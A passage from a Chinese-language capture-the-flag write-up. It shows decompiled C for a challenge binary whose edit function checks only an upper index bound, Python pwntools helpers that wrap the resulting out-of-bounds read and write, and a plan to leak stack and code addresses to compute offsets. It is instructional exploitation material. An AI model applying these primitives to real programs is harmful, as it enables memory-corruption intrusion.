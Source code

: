 ```c++
  }
  return __readfsqword(0x28u) ^ v3;
}
```

###### 	edit:

```c++
unsigned __int64 __fastcall edit(__int64 a1)
{
  int v2; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("which one you want to edit?");
  v2 = 0;
  __isoc99_scanf("%d", &v2);
  if ( v2 <= 23 )
  {
    puts("Enter your content");
    read(0, (void *)(8 * v2 + a1), 8uLL);
  }
  else
  {
    puts("invalid index");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

###### 	题解:

​	可以看到,程序为我们提供了两个功能:读0~a1+23\*8内的内容,写0~a1+23\*8内的内容.

​	因为这两个功能大概率要用很多次,所以我们先给它们写个函数封装一下:

```python
def _read(add):
	r.sendline(b'1')
	r.recvuntil(b"see?\n")
	r.sendline(add)
	recv=r.recv(0x8)
	return u64(recv)
def _write(add,payload):
	r.sendline(b'2')
	r.sendline(add)
	r.recv()
	r.send(payload)
	return
```

​	然后我们就开始了反复调试的过程:简单的说,就是利用我们写好的`_read()`函数在栈上寻找各种地址,比如和`main`同一页的地址,和`stack`同一页的地址,和`read`同一页的地址之类的.这些地址在程序每次运行时都会改变,但是它们和那些我们真正需要的地址的偏移是不变的.因此,我们可以设法泄露这些地址,再通过调试确定偏移量,进而得到那些我们需要的地址.
